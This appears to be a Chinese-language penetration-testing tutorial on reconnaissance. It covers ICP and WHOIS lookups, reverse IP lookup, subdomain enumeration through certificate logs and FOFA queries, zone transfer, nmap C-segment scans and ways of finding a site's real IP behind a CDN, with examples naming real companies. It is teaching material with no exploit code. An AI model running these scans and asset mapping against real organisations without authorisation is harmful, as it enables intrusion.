- **可获取信息**：  
  - 主办单位名称（个人/企业/机构）。  
  - 网站负责人姓名。  
  - 备案号（ICP 号）。  
  - 网站开办时间。  
- **安全意义**：  
  - 攻击者可据此判断网站背后主体，进而追踪企业的其他资产。  
  - 企业可利用备案查询核对是否存在“冒名备案”的情况。  




工信部的官方备案查询有汉字验证码，查起来比较麻烦，可以使用第三方站点，查询速度贼快，但是可能会有整体数据的延迟。









**小蓝本**

https://sou.xiaolanben.com/

使用小蓝本也可以快速收集主域名，只不过也不能一次性的查所有子公司的主域名，不过可以写脚本爬取

来到知识产权，一键获取ICP备案





##### 2.1.2 企业关系查询

通过工商数据平台，挖掘域名背后的企业及其股东、关联公司、上下游关系。  

- **常用工具/平台**：企查查、天眼查、风鸟（https://riskbird.com/）。  
- **可获取信息**：  
  - 企业法定代表人、注册资本、联系方式。  
  - 企业对外投资、分支机构。  
  - 股东信息与企业结构。  
- **安全意义**：  
  - 攻击者可通过企业关系查询，扩展目标面，例如发现子公司网站、未受保护的子域名。  
  - 企业自身可了解供应链中潜在的安全风险。  


---

##### 2.1.3  Whois 查询

Whois 简单来说，就是一个用来查询域名是否已经被注册，以及注册域名的详细信息的数据库（如域名所有人、域名注册商、域名注册日期和过期日期、DNS等）。通过域名Whois服务器查询，可以查询域名归属者联系方式，以及注册和到期时间。

- **常用工具/命令**：  

  - Linux 命令：`whois example.com`  

  - 在线查询：站长之家 WHOIS（https://whois.chinaz.com/）、BOCE（https://www.boce.com/whois），whois365(https://www.whois365.com/cn)。  
- **可获取信息**：  

  - 域名注册商。  
  - 注册人姓名/邮箱/电话（部分可能被隐私保护）。  
  - 注册与到期时间。  
  - 域名的 NS 记录（域名服务器）。  
- **安全意义**：  
  - 攻击者可通过 Whois 获取目标域名到期时间，推测是否可能被“抢注”。  
  - 发现使用相同邮箱注册的其他域名，扩大攻击面。  





下面按照你给的 **Whois 查询示例的格式与风格**，补写一段 **“IP 反查域名（Reverse DNS / IP Reverse Lookup）”** 的书面化内容，可直接插入教材或渗透测试文档中。

------

##### **2.1.4  IP 反查域名**

IP 反查域名是指根据目标 IP 地址查询与其关联的域名信息，即找出哪些域名解析到了该 IP 上。常见方式包括查询 PTR 记录、利用网络测绘引擎、或借助在线反查平台。该方法通常用于发现旁站、未公开业务、测试环境等潜在入口。

**常用工具 / 命令**：

- **在线反查站点**：

  - 站长之家反查域名：https://dns.aizhan.com/
  - 爱站 IP 反查：https://ip.aizhan.com/
  - 微步社区（域名/IP 情报）：https://x.threatbook.cn/
  - BOCE 反查：https://www.boce.com/tool/ip
  - 国外在线工具：https://viewdns.info/reverseip/

- **网络测绘搜索引擎（更全面）**：

  - FOFA：[https://fofa.info](https://fofa.info/)
  - Quake：[https://quake.360.net](https://quake.360.net/)
  - Hunter：[https://hunter.qianxin.com](https://hunter.qianxin.com/)
     使用语法示例：

  ```
  ip="1.2.3.4"
  ```

- **可获取信息**：
  - 与该 IP 解析绑定的域名列表。
  - 不同域名对应的站点根目录与虚拟主机分布情况。
  - 目标是否为共享主机（若大量域名绑定同一 IP）。
  - 内部/隐藏域名（如 test、dev、i、vpn 等）。
- **安全意义**：
  - 能发现**旁站（Neighboring Sites）**，其中可能存在低防护资产。
  - 揭示目标使用的主机服务商，辅助判断同段资产范围。
  - 发现测试域名、后台域名、接口域名等潜在攻击入口。
  - 如果是传统 IDC 托管或共享虚拟主机，可能出现“弱站拖垮主站”的安全风险。

**实操IP反查**

###### 1.4.1使用ipinfosearch工具

ipinfoSearch是一个python编写的脚本工具，可以实现批量的ip反查域名。在windows系统使用之前请先确保你的系统上已经安装了python。

**工具下载与配置**

1. 点击下方链接使用浏览器下载工具的压缩包文件，然后在文件管理器中找到此文件，如下图所示



2.使用解压缩软件将此压缩包解压到当前目录，如下图所示



3.点击解压后的目录，进入工具的根目录下，如下图所示



4.在文件管理器的地址栏输入cmd并按下回车，如下图所示



5.按下回车后会弹出一个cmd窗口，执行以下命令安装工具所需依赖，如下图所示

```bash
python -m pip install -r requirements.txt
```



**使用工具进行ip反查域名**

1. 在工具的根目录下创建一个名为ip.txt的文件，然后在这个文件中写入你要查询的ip，一行一个，然后保存文件，如下图所示
   

2. 回到刚才打开的cmd窗口，执行以下命令运行工具

   ```bash
   python ipInfoSearch.py -f ip.txt
   ```

   工具运行完成之后，会在终端输出ip反查域名的结果信息，如下图所示：

   

###### 1.4.2 使用在线工具反查域名

**fofa**

使用fofa查询指定ip的资产，在结果中可以找到同一资产的域名信息，如下图所示
访问 fofa.info 网站
查询语法：`ip="8.8.8.8"`


**chinaz**

访问`https://ip.chinaz.com/`网站，按如下图所示的方法查询IP地址

查询结果中，登陆后显示ip对应的域名


**ip138**

访问site.ip138.com网站，查询步骤如下图所示


##### 2.1.5 实战应用

利用前面已整理好的 `company.txt`，可对每家子公司进行备案信息查询，从而获得其官网域名或业务域名。

**组织结构收集 → company.txt**

- 记录目标集团所有股权 ≥50% 的子公司
- 记录重要高管关联企业

**基于 company.txt 批量进行主域名查询**

- 若子公司数量少：用官方备案页逐个查询
- 若子公司数量多：用第三方平台批量查询

**汇总主域名 → domains.txt**

- 结合 Whois、邮箱收集进一步扩展

**为子域名收集、C 段扫描等后续步骤打基础**

**工具**

- ICP备案官网：https://beian.miit.gov.cn/
- ICP第三方查询：https://www.beianx.cn/
- Sublmie Text：https://www.sublimetext.com/
- 小蓝本：https://sou.xiaolanben.com/

### 3.子域名收集

子域名收集在整个信息收集阶段非常关键。很多企业的旧业务、测试环境、子系统都挂在各种子域名下，这些地方往往防护较弱，是实际渗透中最常见的突破点之一。

#### 3.1 为什么要收集子域名？

- **扩大攻击面**：不同子域名往往对应完全不同的业务系统。
- **挖出敏感系统**：如后台管理、OA、VPN、API、邮件系统等。
- **找“被遗忘的角落”**：很多系统上线之后没人维护，但依然对外开放。
- **真实案例里很常见**：不少攻击都是从一个“没人记得的子域名”开始的。

子域名越全，后面的端口探测、漏洞扫描、指纹识别越有效。

#### 3.2 HTTPS 证书

HTTPS 证书里经常会包含子域名信息，不论系统是否已经下线。

- **方法**：  
  - 使用 `crt.sh` 等证书透明度日志平台查询。  
  - 示例：`https://crt.sh/?q=example.com`。  
- **意义**：发现企业申请过的子域名，即使网站已下线，也能暴露资产痕迹。  

##### 证书透明度公开日志枚举

证书透明度(Certificate Transparency, CT)是证书授权机构(CA) 的一个项目，证书授权机构会将每个SSL/TLS证书发布到公共日志中。一个SSL/TLS证书通常包含域名、子域名和邮件地址， 这些也经常成为攻击者非常希望获得的有用信息。查找某个域名所属证书的最简单的方法就是使用搜索引擎搜索一些公开的CT日志。

##### 在线第三方平台查询

**crt.sh(https://crt.sh/)**

```
crt:
https://crt.sh/?q=baidu.com
```



可找到已下线系统的历史痕迹。

可以一次性看到大量子域名。

**censys(https://censys.io/)**

证书追踪效果很强，扫描SSL/TLS证书，关联域名/IP，监控证书过期 ， 证书分析是核心强项



**myssl(https://myssl.com/)**

MySSL 不仅是**在线证书生成工具**，更是企业级的**证书安全评估与监控平台**，属于 TrustAsia CaaS（证书即服务）体系的核心组件



**网络测绘引擎平台搜索证书**

见3.3

#### 3.3 网络测绘引擎平台

比较快、比较直接的一类方式。

##### **3.3.1 常用平台：**

- FOFA
- ZoomEye
- Shodan
- Quake
- Hunter

这些平台可以通过企业域名、关键字、IP 甚至标题信息反查出子域名，还可以顺带看到端口、服务、组件版本等信息。

##### **3.3.2 网络测绘引擎示例**

个人习惯使用fofa查询，其他网络测绘搜索引擎也可以

FOFA 查询主要用两类字段：

- **domain="xxx.com"**
  - 通过域名反查
  - 能查到 **Web + 非 Web** 资产（如 FTP、数据库、物联网设备等）
- **cert="xxx.com" / cert="组织名称"**
  - 通过证书内容反查
  - **只能查 Web 资产**
  - 但能发现大量隐藏子域名、历史系统

> **关键点：domain + cert 用 “||” 拼接，会显著扩大资产范围。**

```fofa
domain ="主域名" || cert="公用名" || cert="组织名1" ||  || cert="组织名2" || cert="组织名3" ......
```

**1.基础语法（注意：Fofa高级查询会员）**

比如还是以华为为例：huaweiyun.com

```
domain="huaweiyun.com"
```



仅仅使用**domain ="主域名"** 能查到10条子域名，可以加上cert证书查询语法

```
domain="huaweiyun.com" || cert="huaweiyun.com"
```



结果瞬间翻倍（示例：从 4 条 → 8 条）。可以看到，不用 cert，会漏掉非常多隐藏资产。

**2.扩展 FOFA 查询语法**

**公用名（Common Name）与组织名（Org Name）**

cert 查询不仅能用主域名，还能用证书里的以下字段：

- **公用名 CN（Common Name）**
- **组织名称 O（Organization Name）**

同一家公司往往会有：

- 多个公用名（主域名 / 子域名）
- 多个组织名称（不同子公司注册证书）

所以我们应该 **尽可能找齐所有公用名和组织名，并加入 FOFA 查询**

**如何找到更多公用名和组织名？**

最简单的方式就是：

**手动查看几个 HTTPS 站点的证书**

浏览器里点开证书：

- Common Name（公用名）
- Organization（组织）
- 以及证书里的 SAN（Subject Alternative Name）





通常能发现不少新的字段。

例如：

- 公用名：`huaweicloud.com`
- 组织名：`Huawei Software Technologies Co., Ltd.`

把新发现的公用名、组织名全部加入 cert 查询：

```
domain="huaweiyun.com" 
|| cert="huaweicloud.com" 
|| cert="Huawei Software Technologies Co., Ltd."
```



结果直接变成：

> **884174 条资产**（超级多）

说明证书反查对大型企业非常有效，但数据量可能太大，不适合逐一验证。

**适用场景建议**

证书查询适合：

- 中小企业
- 高校
- 政府单位
- 企业资产 < 3000 条左右

对于华为这种超级大型公司，证书字段太多，结果会膨胀到几十万条，不太适合直接用 cert 扫全量。

##### 3.3.3 批量查询：如何处理 domain.txt？

我们前面收集组织结构时得到了一个 `domain.txt`（所有主域名列表）。

如果要批量查所有子域名，常见做法是：

**写一个脚本，将 domain 和 cert 批量拼接：**

示例格式：

```
domain="主域名1" || cert="主域名1"
|| domain="主域名2" || cert="主域名2"
|| domain="主域名3" || cert="主域名3"
...
```

拼好之后一次性丢进 FOFA 查询即可。

> 因为公用名（CN）大多数时候就是主域名或子域名，所以用 “||” 拼接 domain + cert 能最大程度覆盖资产。

#### 3.4 网站内部信息

只要查看前端资源，就经常能顺便收集到子域名，可以结合浏览器插件使用

常见位置：

- HTML 源码中的超链接
- JS、CSS 资源引用
- robots.txt
- sitemap.xml
- API 请求地址

这类属于轻度的信息泄露，但非常常用。

#### 3.5 搜索引擎

- **思路**：利用 Google Hacking 或百度搜索查询子域名。  
- **常用语法**：  
  - `site:example.com -www` → 查找非 www 的子域名。  
  - `inurl:sub.example.com` → 查找特定子域名。  
- **意义**：搜索引擎可能收录到平时难以发现的子域名。  

Google语法查询

搜索子域名 "site:xxxxx"

```
site:baidu.com
```


更加详细的Google语法可以看高级搜索部分

---

#### 3.6 泛解析

有些企业做了泛解析，所有未知子域名都会指向同一个 IP。

你可以随便访问一个：

```
asdhjkwq.example.com
```

如果能通，那说明目标可能存在泛解析场景。

风险：

- 可能被用于钓鱼。
- 也可能触发子域名接管漏洞（重点场景）。

---

#### 3.7 域传送漏洞（Zone Transfer）

若 DNS 配置错误，可以直接拿到完整子域名列表。

示例命令：

```
dig axfr example.com @dns.example.com
```

一旦成功，几乎是“秒收全部子域名”，但现代系统已较少出现。

>  详细过程可参考：https://qftm.github.io/Information_Collection_Handbook/subdomain_info/dns_domain_send.html


#### 3.8 Passive DNS

由安全厂商长期收集的 DNS 历史记录。

常见平台：

- VirusTotal
- RiskIQ
- DNSDB

优势：

- 能发现曾经存在但已删除的子域名。
- 可以还原企业过去的资产变化。

#### 3.9 各类DNS 解析记录

有些子域名不会直接出现在 A 记录里，但会出现在其他记录中。

常查的记录：

- A → 服务地址
- MX → 邮件系统（常常有新子域）
- TXT → 第三方验证信息（如邮件、云服务）

示例：

```
dig mx example.com
dig txt example.com
```

很多企业的邮件验证记录里会暴露额外的子域名。

------

#### 3.10 通过子域名收集工具收集

- **常见子域名收集工具**：

| 工具名称   | 下载地址                                        | 工具描述                                                     |
| ---------- | ----------------------------------------------- | ------------------------------------------------------------ |
| Layer      | https://github.com/euphrat1ca/LayerDomainFinder | Layer子域名挖掘机，适合快速发现目标的子域名资产              |
| OneForAll  | https://github.com/shmilylty/OneForAll          | 功能强大的子域收集工具，支持多种数据源和接口                 |
| subdomain  | https://rapiddns.io/subdomain                   | 在线子域名爆破工具，支持简单快速查询                         |
| subfinder  | https://github.com/projectdiscovery/subfinder   | 快速的被动子域枚举工具，支持多平台集成                       |
| dnsub      | https://github.com/yunxu1/dnsub                 | 好用且强大的子域名扫描工具，支持多线程                       |
| Hosts_scan | https://github.com/fofapro/Hosts_scan           | 用于 IP 和域名碰撞匹配访问的小工具                           |
| hostscan   | https://github.com/cckuailong/hostscan          | 自动化 Host 碰撞工具，帮助红队快速扩展网络边界，获取更多目标点 |

- **自动化思路**：
  - 综合多种方法（证书、搜索引擎、情报平台）。
  - 将结果去重合并，形成子域名资产清单。

##### 3.10.1 OneForAll

**OneForAll是一款功能强大的子域收集工具**，从名字都能看出来，这个工具集成了网上提到的所有收集子域名的方式，是的所有！crt.sh查找、VT查找、百度谷歌语法、各种测绘引擎，各种查询接口，子域名爆破，host碰撞，dns域传送，dns查询，子域名接管，fuzz等等一系列的方法！

但是如何最大化利用好oneforall呢？需要进行各种外调api配置，各种模块开启，才能发挥它的最大功效

也就是去config目录，把配置文件中的能配置的api（有些要收费，可以选择不配），都配置一下，各个模块启动一下





使用方法

```
python3 oneforall.py --target example.com run
python3 oneforall.py --targets ./example.txt run
```



##### 3.10.2 Layer子域名挖掘机

https://github.com/euphrat1ca/LayerDomainFinder

Layer子域名挖掘机是一款专注于网络安全侦察的高效工具，旨在通过多维度Q探测技术，实现目标域名的自动化子域名发现与信息收集。该工具整合暴力破解、DNS查询、API接口调用等多种技术手段，可快速识别目标网络的子域名资产，有效辅助安全人员发现隐蔽攻击面、梳理资产分布，并为渗透测试、漏洞挖掘及攻击面管理提供关键数据支持。

采用**多线程并发**技术，同时发起数千个DNS查询请求，实现近线性时间复杂度的高效扫描

默认使用的是内置字典，如果使用自定义的字典，需要把字典文件命名为dic，并放到程序同一目录下，程序会自动加载字典



##### 3.10.3 subdomain

https://rapiddns.io/subdomain

dns解析记录查询子域名



## 四、资产扩展阶段

### 1.旁站C段收集

旁站与 C 段扫描是渗透测试中资产摸排的重要环节，通过对目标服务器所在主机及网段进行扩展探测，可以发现大量与目标相关但未公开的业务系统、测试环境或历史遗留资产，从而有效扩大攻击面。

#### 1.1 基本概念

##### 1.1.1 旁站（Neighboring Sites）

**定义：**
 指与目标网站部署在同一台服务器或同一公网 IP 下的其他网站。

**形成原因包括：**

- 虚拟主机环境共享同一 IP
- 云厂商的弹性公网 IP 同时托管多个服务
- 企业使用统一出口 NAT 导致多个应用共享外部 IP

**安全意义：**

- 旁站的安全防护通常不如主站严格，可能存在漏洞。
- 攻击者可通过利用旁站弱点，实现入侵同机系统或横向渗透。
- 某些旁站可能包含调试功能、管理后台或敏感目录，提供进一步突破口。

##### 1.1.2 C 段（Class C Subnet）

**定义：**
 典型指 IPv4 的 `/24` 网段，即前 3 段相同的 256 个 IP 地址（0–255）。

**示例：**

- 目标 IP：`192.168.1.50`
- 所在 C 段：`192.168.1.0 - 192.168.1.255`

**安全意义：**

- 企业常将多个业务系统部署在同一网段或同一安全域中。
- C 段扫描有助于发现：
  - 内部/外部未公开节点
  - 旧业务系统、测试环境
  - 隐藏的管理接口或弱口令服务

##### **1.1.3 IP 地址的分类（公网地址 / 私有地址 / ABC 类地址）**

在进行旁站和 C 段扫描时，必须先理解 IP 地址的基本分类方式，否则无法正确判断哪些 IP 属于公网资产、哪些属于内网、哪些可以进行 C 段扫描。

**① 公网地址（Public IP）**

- **定义**：可在互联网上直接访问的 IP，由运营商分配。
- **特点**：
  - 适合远程扫描 C 段、端口、Web 服务等
  - 企业对外系统、官网、云服务器通常使用公网 IP
- **用途**：
  - 企业暴露到互联网上的真实攻击面
  - 可直接执行旁站查询、Nmap 扫描、证书发现、测绘平台查询

**② 私有地址（Private IP）**

用于企业内部局域网，互联网无法直接访问。常见范围如下：

| 类型     | 范围                          | 示例          |
| -------- | ----------------------------- | ------------- |
| A 类内网 | 10.0.0.0 – 10.255.255.255     | 10.1.2.3      |
| B 类内网 | 172.16.0.0 – 172.31.255.255   | 172.16.10.5   |
| C 类内网 | 192.168.0.0 – 192.168.255.255 | 192.168.1.100 |

- **特点**：
  - 仅在 LAN 内访问
  - 企业 OA 系统、数据库、办公网常使用
- **用途（渗透意义）**：
  - 外网无法直接扫描
  - 需打点成功后通过 VPN、堡垒机、隧道才能继续横向移动
- **注意**：
  - 私有地址不适合放入 FOFA/Shodan 查询，因为它们不在公网曝光

**③ ABC 类地址（Classful Addressing）**

虽然现代网络多使用 CIDR（无分类地址），但渗透测试中仍经常用到 **A / B / C 段** 这些术语。

| 类别     | 起始 – 结束                 | 默认掩码 | 每段地址数量 | 常见用途               |
| -------- | --------------------------- | -------- | ------------ | ---------------------- |
| **A 类** | 0.0.0.0 – 127.255.255.255   | /8       | 约 1600 万   | 超大型企业、运营商     |
| **B 类** | 128.0.0.0 – 191.255.255.255 | /16      | 6.5 万       | 中型企业、学校         |
| **C 类** | 192.0.0.0 – 223.255.255.255 | /24      | 256          | 小范围网段扫描（常用） |

**④ 什么是 A 段、B 段、C 段？**

渗透测试中常听到：

- “扫一下 C 段”
- “看看 B 段有没有其他资产”

实际上对应的是默认子网掩码后的网段大小。

**C 段（最常用）**

- 即 **/24 网段**
- 例如：`192.168.1.0/24`
- 包含 `192.168.1.0 ~ 192.168.1.255` 共 256 个地址
- **渗透意义**：重点扫描目标 IP 所在网段，容易发现同公司其他资产

**B 段（/16 网段）**

- 范围更大，例如：`172.16.0.0/16`
- 容量：65536 个地址
- **渗透意义**：适合中大型企业，有时一个 B 段全是企业内部系统

**A 段（/8 网段）**

- 如：`10.0.0.0/8`
- 超过 1600 万地址，无法直接全段扫描
- **渗透意义**：
  - 大型运营商、大厂私有网络
  - 一般不会对整个 A 段进行主动扫描

**⑤ 不同IP地址的渗透作用**

| 类型            | 可能情况                    | 渗透视角           |
| --------------- | --------------------------- | ------------------ |
| 公网 C 段 `/24` | 企业使用云服务器或 CDN 常见 | 最常扫描的网段     |
| 公网 B 段 `/16` | 政府/大型企业专有段         | 资产多、价值高     |
| 私有 C 段 `/24` | 办公网、服务器内网          | 需进入内网才能扫描 |
| 私有 A / B 段   | 超大型内网                  | 横向渗透阶段重点   |

**⑥ 总结**

- **公网地址 → 能直接扫描 FOFA/Nmap → 构成可攻击面**
- **私有地址 → 内网 → 需突破外网边界后才能访问**
- **C 段 → 256 个地址 → 渗透测试最常用**
- **A/B/C 段 ≈ 网段大小，不是安全等级**

#### 1.2 旁站与 C 段扫描的安全意义

通过对同 IP 和同 C 段的资产进行扫描，可以：

- 找到隐藏业务，如：API 接口、测试站点、旧 CMS 后台
- 探测系统间关系，识别同源系统和企业整体架构
- 发现弱点站点，通过突破外围资产间接影响主目标
- 如果目标主站防护较强，可以利用旁站作为“突破口”

------

#### 1.3 C 段扫描流程

##### 1.3.1 前期准备

1. 获取目标域名 → 解析出 IP。
2. 根据 IP 确定所属网段，如：
   - `192.168.1.50` ⇒ `192.168.1.0/24`
3. 明确授权范围（企业安全规定/项目授权书）。

##### 1.3.2 扫描步骤

**1. 活跃主机探测（Ping 扫描）**

```bash
nmap -sn 192.168.1.0/24
```

用于快速识别在线 IP。

**2. 端口扫描（TCP/UDP）**

常用端口扫描示例：

```bash
nmap -p 80,443,8080 192.168.1.0/24
```

扫描常用 Web 服务。

扫描所有端口并识别服务：

```bash
nmap -sS -sV -p- 192.168.1.0/24
```

- `-sS`：半连接扫描（隐蔽性高）
- `-sV`：探测服务版本
- `-p-`：扫描全部端口

**3. 旁站发现**

对扫描到的活跃主机，尝试识别是否存在多个站点：

- 发送 HTTP 请求并遍历常见 Host 头
- 结合 httpx、webanalyzer 等工具识别 Web 服务
- 利用服务器响应差异推断存在多个虚拟主机

**4. 自动化批量扫描**

可利用脚本（Python、Bash）或专业工具批量扫描并输出结果，适合对大量网段进行快速覆盖。

------

#### 1.4 常用旁站与 C 段扫描工具

| 工具名称              | 功能描述                                          | 特点与适用场景                                               |
| --------------------- | ------------------------------------------------- | ------------------------------------------------------------ |
| **Nmap**              | 网络探测、端口扫描、C 段扫描                      | 精准，可脚本化，渗透测试必备                                 |
| **Masscan**           | 超高速端口扫描                                    | 扫描大网段/互联网级目标需谨慎控制速率                        |
| **httpx**             | 批量识别 HTTP 服务、旁站初筛                      | 与 nmap、masscan 配合效率高                                  |
| **EyeWitness**        | Web 页面截图、旁站识别                            | 适合多站点资产快速归类                                       |
| **fscan**             | 综合内网扫描（端口、服务、漏洞）、C段与旁站探测   | 轻量快速，模块化设计，支持自定义POC，适合红队内网渗透与攻防演练 |
| **小米范 WEB 查找器** | 可视化旁站发现工具                                | 图形化、适合新手使用                                         |
| **在线工具：Webscan** | C 段扫描、旁站识别                                | <https://c.webscan.cc/>                                      |
| **Python 自定义脚本** | 灵活实现扫描逻辑，如遍历 C 段、自动识别 Host 异常 | 适用于大型资产项目                                           |

##### 1.4.1 使用 Nmap 扫描 C 段示例

1. 扫描准备

- 确认目标网段，例如：`192.168.1.0/24`
- 安装 Nmap：
  - Linux：`sudo apt install nmap`
  - Windows：下载地址：
     https://nmap.org/download.html

------

2. 常见扫描命令

**(1) Ping 扫描：获取存活主机**

```bash
nmap -sn 192.168.1.0/24
```

示例输出：

```
Nmap scan report for 192.168.1.1
Host is up (0.0031s latency).
Nmap scan report for 192.168.1.50
Host is up (0.0012s latency).
```

**(2) 常用端口扫描**

```bash
nmap -p 80,443 192.168.1.0/24
```

发现 Web 站点非常有效。

**(3) 扫描全部端口 + 服务识别**

```bash
nmap -sS -sV -p- 192.168.1.0/24
```

适合深入资产分析。

##### 1.4.2 在线工具进行扫描C段

1.在线工具

https://c.webscan.cc/

2.扫描C段和旁站




##### 1.4.3 小米范WEB查找器

[](https://github.com/Eagles-Lab/Security-Notes/blob/main/信息打点/02.网站域名/image-20250911084216664.png)



##### 1.4.4 Eeyes(棱眼)-快速筛选真实IP并整理为C段

https://github.com/EdgeSecurityTeam/Eeyes

旨在获取到大量域名之后，获取其中真实IP并整理成c段，有助于在src中或红蓝攻防中快速定位目标的真实资产，可结合棱洞使用，识别cdn的准确率是网络环境决定的。

```
     ______    __         ______
    / ____/___/ /___ ____/_  __/__  ____ _____ ___
   / __/ / __  / __ `/ _ \/ / / _ \/ __ `/ __ `__ \
  / /___/ /_/ / /_/ /  __/ / /  __/ /_/ / / / / / /
 /_____/\__,_/\__, /\___/_/  \___/\__,_/_/ /_/ /_/
			 /____/ https://forum.ywhack.com  By:shihuang

Eeyes version: 0.0.1
Usage: Eeyes [-f|-l] [parameter]

Options:
  -f string
    	Fofa searches for assets , supports domain。(example.com)
  -ftime string
    	fofa timeout (default "10")
  -h	this help
  -l string
    	Probe based on local file
  -log string
    	Log file name (default "server.log")
```





### 2.CDN识别

#### 2.1 CDN 简介

CDN的全称是Content Delivery Network，即内容分发网络。其基本思路是尽可能避开互联网上有可能影响数据传输速度和稳定性的瓶颈和环节，使内容传输的更快、更稳定。通过在网络各处放置节点服务器所构成的在现有的互联网基础之上的一层智能虚拟网络，CDN系统能够实时地根据网络流量和各节点的连接、负载状况以及到用户的距离和响应时间等综合信息将用户的请求重新导向离用户最近的服务节点上。

- **主要功能**  

  1. **加速**：减少访问延迟，提高网站访问体验。  
  2. **高可用性**：通过多节点分布，避免单点故障。  
  3. **抗攻击**：CDN 节点能隐藏真实服务器 IP，并具备 DDoS 防护能力。  

- **对安全的影响**  

  - 渗透测试时，扫描的 IP 可能是 CDN 节点，而非真实目标主机。  
  - 需要通过一定方法绕过 CDN，获取真实 IP，才能进一步攻击。  

- **为什么都喜欢用CDN？**

  咱先想象个场景：你人在北京，想访问深圳某公司的官网。这时候数据得从深圳跑到北京，2000 多公里呢，路上说不定还堵车（网络延迟高），打开网页得等老半天。**CDN 咋解决这问题呢？** 网站把常用的 "热门内容"，比如首页、产品图片这些，提前存到北京的中转站（CDN 节点）。你访问的时候，直接从中转站拿数据，就像在本地超市买东西，速度嗖一下就提上来了，延迟能降低 50% 以上。**说白了**：CDN 就是内容分发网络，靠分布在全球的无数个中转站，把网站内容缓存到离用户最近的地方，既能减轻源站压力，又能让用户访问更快。

- **为啥说 CDN 是 "拦路虎"？**

  - **藏起真实 IP**：咱们平时 ping 域名，拿到的都是 CDN 中转站的 IP（比如阿里云、腾讯云的节点 IP），真正的源站 IP（服务器真实地址）被藏得严严实实。
  - **增加攻击难度**：搞渗透测试得先找到源站 IP 才行啊！要是对着中转站一顿操作，全是无用功，根本打不到真实服务器。

#### 2.2 CDN的工作原理

捋一遍用户访问带 CDN 网站的流程：

1. **用户发起请求**：在浏览器输入www.xxx.com，浏览器先去做 DNS 解析，也就是把域名翻译成 IP 地址。
2. **DNS 返回 CDN 节点 IP**：域名解析的时候，CDN 服务商会根据你的位置，返回离你最近的节点 IP。比如你在上海，就给你上海的节点 IP。
3. **节点处理请求**：
   - **有缓存内容**：比如你访问的是首页，中转站里已经存了，直接返回给你，不用经过源站。
   - **没缓存内容**：比如登录接口这种动态内容，中转站就会向源站（真实服务器）要数据，拿到后再转发给你。
4. **你看到的都是节点 IP**：整个过程中，你的请求压根没到源站，所以不管是抓包还是扫描，拿到的都是中转站的 IP。

#### 2.3 如何判断网站是否使用 CDN

由于CDN需要代价，一般小企业很大几率不会存在CDN服务。

假如一些企业存在CDN服务，那该如何寻找其真实IP呢，常见几种手法

##### 2.3.1 Ping目标主域

通常通过ping目标主域，观察域名的解析情况，以此来判断其是否使用了CDN

对京东和阿里还有一家电器企业进行ping测试，观察域名的解析情况，可以看到京东和阿里都采用了自家CDN，而那个电器企业没有CDN服务

```
ping www.jd.com

ping www.alibaba.com

ping www.dfle.com.cn
```



##### 2.3.2 Nslookup

###### 2.3.2.1 不同DNS域名解析

不同DNS域名解析情况对比，判断其是否使用了CDN

不同DNS解析结果若不一样，很有可能存在CDN服务

```
nslookup eagleslab.com.cn 8.8.8.8

nslookup eagleslab.cn 114.114.114.114
```



```
nslookup www.baidu.com 8.8.8.8

nslookup www.baidu.com 114.114.114.114
```



###### 2.3.2.2 nslookup默认解析

若解析结果有多个，很有可能存在CDN，相反，若解析结果有一个，可能不存在CDN(不能肯定)



##### 2.3.3 全国Ping

利用全国多地区的ping服务器操作，然后对比每个地区ping出的IP结果，查看这些IP是否一致， 如果都是一样的，极有可能不存在CDN。如果IP大多不太一样或者规律性很强，可以尝试查询这些IP的归属地，判断是否存在CDN。

在线网址

- Ping检测-站长工具(http://ping.chinaz.com/)
- 17CE(https://www.17ce.com/)
- ipip (支持国内、国外)(https://tools.ipip.net/newping.php)
- itdog（https://www.itdog.cn/ping/）

###### 2.3.3.1 站长工具

测试目标：`www.jd.com`



###### 2.3.3.2 17CE



##### 2.3.4 工具查询

这里工具只能作为辅助，有一定误报的概率，只能作为参考

###### 2.3.4.1 Cdnplanet

- cdnplanet(https://www.cdnplanet.com/tools/cdnfinder/) （查询可能比较慢）



#### 2.4 国内外CND

国内常见CDN

```
阿里云
腾讯云
百度云
网宿科技(ChinanNet Center)
蓝汛
金山云
UCloud
网易云
世纪互联
七牛云
京东云等
```

国外常见CDN

```
Akamai(阿卡迈)
Limelight Networks(简称LLNW)
AWS Cloud(亚马逊)
Google(谷歌)
Comcast(康卡斯特)
```

#### 2.5 绕过CDN查找真实IP

在确认了目标确实用了CDN以后，就需要绕过CDN寻找目标的真实IP，下面介绍一些常规的方法。

##### 2.5.1 国外请求

很多时候国内的CDN对国外得覆盖面并不是很广，故此可以利用此特点进行探测。通过国外代理访问就能查看真实IP了，或者通过国外的DNS解析，可能就能得到真实的IP。

###### 2.5.1.1 国际Ping

国际ping测试站点

- ipip(https://tools.ipip.net/newping.php)

测试站点：`www.yeah.net`



###### 2.5.1.2 国外DNS解析

- 测试站点：`www.yeah.net`

美国加利福尼亚州山景市谷歌公司DNS服务器： `8.8.4.4`



##### 2.5.2 分站域名&C段查询

很多网站主站的访问量会比较大，所以主站都是挂CDN的，但是分站可能没有挂CDN,可以通过ping二级域名获取分站IP， 可能会出现分站和主站不是同一个IP但在同一个C段下面的情况，从而能判断出目标的真实IP段。

- 参考子域名收集及C段章节

##### 2.5.3 查询域名历史DNS解析记录

一般网站从部署开始到使用cdn都有一个过程，周期如果较长的话 则可以通过这类历史解析记录查询等方式获取源站ip，查看IP与域名绑定的历史记录，可能会存在使用CDN前的记录。

在线网站查询

- [NETCRAFT](https://sitereport.netcraft.com/?url=)
- [viewdns](https://viewdns.info/)
- [threatbook](https://x.threatbook.cn/)
- [securitytrails](https://securitytrails.com/)

##### 2.5.4 利用邮件服务（针对有联系邮箱的站点）

- **原理**：网站的联系邮箱，比如admin@xxx.com，在发送邮件时，邮件头信息里会暴露源站 IP，因为邮件服务器通常直接连接源站。

- 操作步骤：
  - 1.给网站的联系邮箱发一封邮件，比如注册时的找回密码邮件，或者随便发个咨询邮件。
  - 2.查看邮件源码（以 QQ 邮箱为例，打开邮件后，点击右上角的 "更多"，选择 "显示邮件原文"）。
  - 3.在源码里搜索Received字段，会看到类似这样的内容：


##### 2.5.5 找未被 CDN 代理的端口 / 服务

- **原理**：CDN 通常只代理 80 和 443 端口（Web 服务），像 22（SSH）、3389（RDP）、3306（MySQL）这些端口，很多企业没给它们加 CDN，直接暴露源站。

- 操作步骤：

  - 1.用 nmap 扫描域名的所有端口：

    ```nmap -sS -p1-65535 xxx.com  # -sS是半开扫描，隐蔽性好；-p1-65535扫描所有端口```

  - 2.重点分析非 80/443 端口的 IP：

